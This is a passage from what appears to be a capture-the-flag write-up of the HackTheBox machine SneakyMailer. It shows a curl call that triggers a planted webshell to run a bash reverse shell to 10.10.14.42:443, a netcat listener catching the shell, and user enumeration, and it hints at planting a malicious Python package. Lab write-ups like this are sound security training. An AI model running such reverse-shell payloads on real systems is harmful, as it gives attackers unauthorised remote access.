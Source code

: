 #### Shell

I'll trigger the webshell to get an interactive shell:



    root@kali# curl http://dev.sneakycorp.htb/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.42/443 0>&1'"



`nc` gets a connection:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:54094.
    bash: cannot set terminal process group (661): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'll upgrade the shell with the [standard python pty stty
method](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

## Priv: www-data --\> low

### Enumeration

#### Identify Path

There are two users on the box, low and vmail:



    www-data@sneakymailer:/home$ ls
    low  vmail



www-data can't access vmail, but can access low, where `user.txt` is,
unreadable:



    www-data@sneakymailer:/home/low$ ls -l
    total 8
    -rwxr-x--- 1 root low   33 Jul 12 16:48 user.txt
    drwxr-xr-x 6 low  low 4096 May 16 03:33 venv



This is where the second email from Paul Byrd is useful. It tells low to
download and run all the Python packages in their local pypi. Definitely
a hint that I should put one in there.
